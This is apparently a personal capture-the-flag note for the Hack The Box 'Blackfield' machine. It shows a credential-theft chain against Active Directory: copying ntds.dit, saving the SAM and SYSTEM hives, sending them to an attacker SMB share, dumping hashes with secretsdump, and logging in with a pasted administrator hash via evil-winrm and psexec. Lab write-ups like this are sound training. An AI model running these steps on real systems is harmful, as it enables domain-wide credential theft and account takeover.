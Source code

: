 

copy ntds file, way 2 robocopy

```bash
robocopy /B C:\Windows\NTDS .\ntds ntds.dit
```

if no shadow, got this error.

```bash
## 2022/12/10 15:20:46 ERROR 32 (0x00000020) Copying File C:\Windows\NTDS\ntds.dit
## The process cannot access the file because it is being used by another process.
```



save system and download ntds, system via smb.

```bash
reg save HKLM\SYSTEM system
reg save HKLM\SAM sam

smbserver.py -smb2support share ./ &

copy c:\temp\ntds.dit \\10.10.14.90\share\ntds.dit
```

takes long time, if file copy not correct, use evil-winrm download.

```bash
download c:\temp\ntds.dit /home/kali/lab/htb/blackfield/ntds.dit
```



dump creds, got admin hash.

```bash
secretsdump.py -ntds ntds.dit -system system local
```

connect via wimrm.

```bash
evil-winrm -u administrator -H 184fb5e5178480be64824d4cd53b99ee -i $tip
```

psexec not work, neither the ip nor the domain name. Not know the reason.

error ` Error performing the uninstallation, cleaning up`

```bash
psexec.py -hashes :184fb5e5178480be64824d4cd53b99ee blackfield.local/administrator@dc01.blackfield.loca
```
